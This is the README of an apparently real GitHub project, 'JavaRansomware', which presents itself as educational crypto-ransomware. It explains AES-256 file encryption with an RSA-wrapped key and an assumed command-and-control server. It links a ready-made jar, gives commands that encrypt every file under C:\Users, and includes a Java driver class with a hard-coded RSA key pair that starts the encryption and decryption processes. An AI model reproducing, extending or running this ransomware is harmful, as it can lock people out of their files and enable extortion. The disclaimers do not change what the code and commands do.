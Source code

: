 # JavaRansomware
<p>Ransomware is malware for data kidnapping, an exploit in which the attacker encrypts the victim's dataRansomware stops you from using your PC.Ransomware spreads through e-mail attachments, infected programs and compromised websites. A ransomware malware program may also be called a cryptovirus, cryptotrojan or cryptoworm It holds your PC or files for "ransom".</p>

#What does ransomware do?
<p>There are different types of ransomware. However, all of them will prevent you from using your PC normally, and they will all ask you to do something before you can use your PC.

They can target any PC users, whether it’s a home computer, endpoints in an enterprise network, or servers used by a government agency or healthcare provider.

Ransomware can:</p>

* Prevent you from accessing Windows.

* Encrypt files so you can't use them.

* Stop certain apps from running (like your web browser).

<p>Ransomware will demand that you pay money (a “ransom”) to get access to your PC or files. We have also seen them make you complete surveys.

There is no guarantee that paying the fine or doing what the ransomware tells you will give access to your PC or files again.</p>

# Project Summary
This project aims to build an almost functional crypto-ransomware for educational purposes, written in in pure java. Basically, it will encrypt your files in background using AES-256, a strong encryption algorithm, using RSA-4096 Public Key to secure the AES Symetric key and store it in an embeeded database.

Assume that there is a C&C Server who  for store the Id and the respective encryption key and possibly act as a Command and Control server in the near future.

The malware encrypt with your RSA-4096 public key any payload before send then to the server. This approach with the https transport together make the security and authentication almost unbreakable (in theory).

For Education Purposes I will not Provide the Full Server  source code.,as i decribed in the previous paragraph.  Let's imagine a simple testing example which client by deafult has the Asymmetrtic encryption keys.

#Usage and How it Works
<p>The easiest way to run this Project is to use the the <a href="https://github.com/PanagiotisDrakatos/JavaRansomware/blob/master/JavaRansomware-2.1-jar-with-dependencies.jar">.jar</a> open a cmd terminal and simply run the below commands </p>

 ```
 $ cd JarPath
```

<p>Encrypt All Files in the Current Path </p>
 ```
 $ java -jar JavaRansomware.jar C:\Users Encrypt
```

<p>Decrypt All Files in the Current Path </p>
 ```
 $ java -jar JavaRansomware.jar C:\Users Decrypt
```

> DON'T RUN JavaRansomware.jar IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT(VMWARE)!

<p>if you want to use the project programmatically just put the below code in your project and simply run it. Don't forget to give Input arguments from the Command-Line Arguments. i've put  a printscreen to see how to give Paramaters</p>

<h2>Java Manual</h2>
```java
public class App {
 
  private static final String PubicKey = "MFwwDQYJKoZIhvcNAQEBBQADSwAwSAJBAJCw1HHQooCFGsGhtxNrsdS6dDq5jtfHqqLInCj7qFlDaD/Sll5+BAUjV0GU/c+6PVyMKzmLrHh49eeGQy1ETN8CAwEAAQ==";
    private static final String PrivateKey = "MIIBVAIBADANBgkqhkiG9w0BAQEFAASCAT4wggE6AgEAAkEAkLDUcdCigIUawaG3E2ux1Lp0OrmO18eqosicKPuoWUNoP9KWXn4EBSNXQZT9z7o9XIwrOYuseHj154ZDLURM3wIDAQABAkA9AnLx8tkye+2GTBwYEkcPvfcYc/mpPsXSkehW15Zq3IALx3Kr5GgKGOaB2FK6PU0QzEPQbNJXdA5ZPjwTDcQBAiEA1/zINRVlrLpw2HPfqsYQ8ZSDuG2rVUUKKmKgJQXeQ98CIQCrfsw2+VKOaFoJm5BpVxIT5nsE8CXn4fr/WSFuklMXAQIgTKWnAreCKmbLTvTn5bl+H8zdZaB9kbf7YIk5XYoUky8CIQCL2ccnPYK5ZxelphrKDJtNZzMC/+OpiXtqKIE+7kycAQIgRK/DUhWUgSQV5u7VoCHDyLPCntjFMGBsg7Wi1uq+EDM=";
    
    private static final String ENCRYPT = "ENCRYPT";
    private static final String DECRYPT = "DECRYPT";

    public static void main(String[] args) throws RansomwareException {

        Processing(args[0], args[1]);
    }

    private static void Processing(final String toSearch, final String attack) throws RansomwareException {
        final RansomProcess p = new RansomProcess(toSearch);

        if (attack.equalsIgnoreCase(ENCRYPT))
            p.StartEncryptProcess(PubicKey);
        else if (attack.equalsIgnoreCase(DECRYPT))
            p.StartDecryptProcess(PrivateKey);
        else
            throw new RansomwareException("Mismatched Values Try again with correct one");

    }

}
```
---

![alt tag](https://github.com/PanagiotisDrakatos/JavaRansomware/blob/master/JavaRansomWare.PNG)


#Legal Warning
<p>While this may be helpful for some, there are significant risks. JavaRansomware may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail if if you will use it for malicious purposes.</p>


#Contribute
 1. Fork it: git clone https://github.com/PanagiotisDrakatos/JavaRansomware.git
 2. Create your feature branch: git checkout -b my-new-feature
 3. Commit your changes: git commit -am 'Add some feature'
 4. Push to the branch: git push origin my-new-feature
 5. Submit a pull request :D
 
#License
<p> This project is licensed under the MIT License - see the<a href="https://github.com/PanagiotisDrakatos/JavaRansomware/blob/master/LICENSE">Licence.md</a>file for details</p>
